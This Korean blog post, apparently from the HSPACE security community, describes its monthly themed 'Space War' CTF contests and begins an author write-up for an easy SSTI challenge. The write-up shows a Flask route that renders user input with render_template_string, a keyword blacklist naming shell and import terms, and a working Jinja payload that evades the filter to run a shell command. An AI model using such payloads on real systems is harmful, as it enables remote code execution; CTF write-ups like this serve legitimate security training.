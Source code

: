 ### 2. 스페이스 워

이제 스페이스 워입니다. 매월 정기적으로 대회를 개최하며 월마다 진행되는 중요 행사들의 일정을 반영하여 1회에서 2회 사이로 대회를 개최합니다. 또한 매 대회마다의 테마가 정해져 있습니다. 예시로 24년 1월에는 웹해킹 테마와 포너블 테마, 2월에는 리버싱 테마와 크립토 테마의 대회가 개최되는 등의 형식입니다. <br>
장점으로는 아무래도 참여하는데에 제약이 없다는 점입니다. 이전의 파트너 CTF와는 다르게 HSPACE의 회원이라면 모두가 참여할 수 있고, 수상의 개념도 공식적으로 추가되었습니다. 물론 부상(副賞)역시 존재합니다. 또한 정기적으로 대회가 개최되기 때문에, 본인이 참여할 수 있는 시간에 적절히 참여하면 됩니다. 게다가 테마가 정해져 있기 때문에 본인이 원래 잘하던 분야에 집중하여 순위권을 노려볼수도 있고 상대적으로 약했던 분야를 연습하기에도 유용합니다. <br>
단점으로는 아무래도 모두의 요구사항을 수용하기에는 어려움이 있고, 비슷한 결로 개인이나 단체가 원하는 시간에 원하는 테마의 대회를 즉시 참여할 수는 없다는 아쉬움은 있습니다.

위 두 대회의 차이점으로 미뤄보았을 때, **스페이스 워**의 방식을 채택하는 것이 참가하시는 분들, 그리고 HSPACE에게도 더 좋은 결과를 낳을 것이라 판단하게 되어 스페이스 워가 HSPACE의 공식 대회로 책정되었습니다.

그리 하여.. 지금의 스페이스 워가 탄생되었습니다! 스페이스 워에 대한 더 자세한 설명은 HPSACE 공식 카카오톡 오픈 채팅과 디스코드에서 확인하실 수 있으니 관심있으신 분들은 참고해주시면 좋을 것 같습니다. 오픈 채팅과 디스코드의 링크는 [HSPACE 공식 홈페이지](https://hspace.io/)에서 확인해보실 수 있습니다.

Space War에 대한 설명은 이쯤으로 마치고.. 2024년 1월 웹해킹 테마로 진행되었던 각 문제들의 출제자 write-up을 공유드리고 포스팅을 마치도록 하겠습니다. 긴 글 읽어주셔서 감사합니다.

**PS:** write-up을 읽지 않고 (혹은 읽으면서) 직접 문제를 해결해보고 싶으신 분들은 [HSPACE 워게임](https://chall.hspace.io/)에서 직접 문제를 풀어보실 수 있으니 많은 관심 부탁드립니다.

---

## for_beginner

**출제자 책정 난이도**: Easy

정말 간단한 ssti다.

```python
blacklist = ['os','subprocesses','exec','vars','sys','"','\+','open','rm','main','static','templates','ctf','rf','spawnlp','execfile','dir','dev','tcp','sh','import','built','__class__','for','request','\,','app','file','url_for','\[','\]','config']

def Prevent_SSTI(input):
    for i in blacklist:
        res = re.search(i,input)
        if res:
            return True
    else:
        return False

@app.route('/')
def main():
    name = request.args.get("name", "World")
    return render_template_string(f'Hello {name}!!')
```
name 파라미터로 데이터를 받은 뒤 render_template_string 함수를 이용해서 template rendering을 해주는 전형적인 ssti 문제다.
필터링이 걸려있는데, 우리가 고려해야할 것은 단지 `[,]`를 쓰지 못한다는 것이다. 이러한 것은 |와 attr을 이용하여 pyjail 풀 듯이 os나 subprocess 모듈 찾아서 함수 실행해주면 된다.

```
{{%27%27|attr(%27\x5f\x5fclass\x5f\x5f%27)|attr(%27\x5f\x5fmro\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(1)|attr(%27\x5f\x5fsubclasses\x5f\x5f%27)()|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(494)(%27cat%20flag.txt%27,shell=True,stdout=-1)|attr(%27communicate%27)()}}
```
